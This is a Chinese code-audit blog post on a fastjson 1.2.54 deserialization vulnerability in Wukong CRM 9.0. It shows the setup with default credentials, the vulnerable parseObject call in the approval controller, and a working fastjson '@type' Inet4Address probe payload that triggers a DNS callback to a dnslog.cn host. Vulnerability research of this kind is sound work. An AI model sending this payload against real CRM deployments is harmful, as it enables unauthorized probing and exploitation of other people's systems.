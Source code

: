#  JAVA代码审计-悟空crm客户管理系统fastjson漏洞   
 船山信安   2024-11-25 16:07  
  
## 一. 本地搭建  
  
版本：Wukong CRM9.0  
  
1. 搭建需要使用myql数据库和redis两个，使用phpstudy搭建即可，mysql数据库的文件为WukongCRM-9.0-JAVA-9.0.1_20191202/src/main/resources/config/crm9-config.txt，将下载的crm9.sql导入数据库即可，数据库格式为UTF-8；redis配置文件为同目录下的redis.json文件，redis默认密码为123456。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9OXWbUsdp8nKicoFJWUiaiayjiaP37JuhTDd01WpBe6TvSjHaXsV2ZsDbF9w/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9O8AbyLJsMCI9iaoYBLfZV8UcVgY5bkfqzqibiaGw3cSvoX7PNJMzn24g8w/640?wx_fmt=jpeg&from=appmsg "")  
  
2. 配置好后使用idea打开，配置Tomcat中间件进行本地运行，没有报错正常起来界面如下，默认账号为：admin/123456  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9OEEpULeWia1Aj1jdFx8DRBVBuGK8S7EYzqEJD8VudQpVCbGYgOBKehbA/640?wx_fmt=jpeg&from=appmsg "")  
## 二. fastjson漏洞审计  
  
1. 查看pom.xml文件，发现引用了fastjson组件，版本为有漏洞的1.2.54。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9O5YeuclpKTXj1lqmIicDd61iafgxu2MibuDa5Ceayf3D97YhqjtVtyP2UQ/640?wx_fmt=jpeg&from=appmsg "")  
  
2. 确定后，查找哪里引用了组件，并且是可控的。  
```
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9OrUJvkhsKUywhybClQNhIwXm8h8KWoFr9tAjZnoPicycMe9jzchIN8Mw/640?wx_fmt=jpeg&from=appmsg "")  
  
3. 发现好多地方引用，这个方法如果没有其他处理的话，是会引起反序列话的，进入一个查看具体的代码。  
> 在AdminExamineController.java中的添加审批处：  
> 代码解释@Permissions("manage:examineFlow:update")这是一个注解，用于权限控制。表示调用此方法需要具有 manage:examineFlow:update 权限。public void saveExamine()定义了一个公共方法 saveExamine，该方法没有返回值（void）。JSONObject jsonObject = JSON.parseObject(getRawData());从请求中获取原始数据（getRawData() 方法返回一个字符串），并将其解析为一个 JSONObject 对象。JSON.parseObject 是一个将 JSON 字符串转换为 JSONObject 的方法。renderJson(examineService.saveExamine(jsonObject));调用 examineService 对象的 saveExamine 方法，并将解析后的 jsonObject 作为参数传递。examineService.saveExamine(jsonObject) 的返回值将被传递给 renderJson 方法，用于生成 HTTP 响应的 JSON 格式数据。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9O9FLsPpicI9WZZKRIeMotYM32rK8ic8GLBn58pJiaiaKJMQF381vAoibZOVw/640?wx_fmt=jpeg&from=appmsg "")  
  
4. 根据提示找到添加审批处，抓包尝试dnslog。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9OWMzQQTFTrvdBCFqNkbwCicl8viaC16xcklIcsAORJ6cPay92yfRib1BiaQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9O44iaxXeUykQhxR8whImaG9zN84yl41cQiazfaRsye77VfD5SopFUTROg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9Oiam3gWhQy3wHLI5gKkqLhCnOCETpOzXFrQjmv1qBybLhiciao3ib8KHaow/640?wx_fmt=jpeg&from=appmsg "")  
  
5. 打开dnslog平台，使用fastjson漏洞poc探测，可以看到成功回显。  
> {"zeo":{"@type":"java.net.Inet4Address","val":"0r8b41.dnslog.cn"}![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9ORYBBTFptlRUhnRQ0uwXrcLrJgqBmiayFkycOm5Yx05ibfGSgPmJR5R2A/640?wx_fmt=jpeg&from=appmsg "")  
  
>   
> 结尾：这只是其中的一处，根据代码搜索看在产品处，线索处等都存在漏洞。  
> ![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9O6XcEpFzFI1kVT8rT93y5v7OE5ZGy94LXyLIvDDiasLzMgo4JZSWpkLw/640?wx_fmt=jpeg&from=appmsg "")  
  
> ![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNgqyV0ic09xj6KicD7Y1fn9OwhDqyJLDEiccdsz49ue7JiaRdAXrYF88KyEDFHJibbbxZX9NXZcxRS36A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
来源：【  
JAVA代码审计-悟空crm客户管理系统fastjson漏洞 - FreeBuf网络安全行业门户  
】  
  
